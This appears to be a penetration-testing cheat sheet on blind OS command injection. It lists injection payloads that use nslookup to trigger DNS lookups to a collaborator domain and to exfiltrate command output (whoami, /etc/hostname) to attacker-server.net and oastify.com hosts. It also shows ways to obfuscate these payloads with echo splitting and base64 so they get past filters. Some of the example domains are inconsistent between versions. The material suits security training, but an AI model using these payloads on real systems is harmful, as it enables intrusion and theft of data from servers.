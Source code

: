 ```bash
& nslookup COLLABORATOR-DOMAIN &
```

This causes the `nslookup` command to cause a DNS lookup for the specified domain.

As an example, there may be a vulnerable parameter in a feedback form that is susceptible to blind OS command injection. If so, try injecting various payloads such as:

![[Collaborator.png]]

Check Collaborator for any DNS requests for successful OAST interaction.














# DNS Data Exfiltration

Using backticks and `$command`:

```bash
; nslookup $(whoami).attacker-server.net ;
; nslookup `whoami`.attacker-server.net ;
```
# Obfuscation Payloads

The goal here is to learn how the following payload can be obfuscated to bypass filters for data exfiltration. The payloads can be combined when exploiting template injection or other vulnerabilities that use OS command injection.

Original payload:

```bash
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

Obfuscation using the "echo" command to help obfuscate the word "hostname":

```bash
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

Obfuscation using base64 to hide the file name:

```bash
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

Decoded payload:

```bash
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```
